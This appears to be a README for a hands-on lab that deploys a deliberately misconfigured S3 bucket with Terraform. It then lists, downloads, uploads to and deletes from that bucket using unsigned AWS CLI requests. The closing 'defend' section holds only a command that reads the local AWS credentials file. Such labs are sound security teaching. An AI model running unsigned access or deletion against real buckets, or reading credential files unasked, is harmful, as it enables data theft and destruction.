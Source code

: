 # S3 Misconfiguration

* Clone the repository 

```bash
git clone https://github.com/bvabhishek/s3misconfiguration.git
```
* Step 1: Change Directory

```bash
cd s3misconfiguration
```
* Step : Initialise terraform 

```bash
terraform init
```

* Step : Run `terraform apply -auto-approve`

```bash
terraform apply -auto-approve
```

* Step 4: Export bucket name
```bash
export s3bucket=<bucketname> 
```

* Step 5: Lets try to list down the contents of bucket

```bash
aws s3 ls s3://$s3bucket
```

* Step 6: Now lets perform all the possible attacks

* Step 7: Lets first download the fishy files 

```bash
aws s3 cp s3://$s3bucket/ssn.jpeg /home/abhi/seasides/

```

* Step 8: Let's upload a new file 

```bash
aws s3 cp main.tf s3://$s3bucket --no-sign-request --region us-west-2
```

* Step 9: Let's Delete a file 


```bash
aws s3 rm s3://$s3bucket/output.tf --no-sign-request --region us-west-2
```


* By this we can figure out that all sensitive data has been compromised and due to misconfiguration of bucket we have a complete control of the bucket


Now how to put a control on it or Defend 




cat ~/.aws/credentials
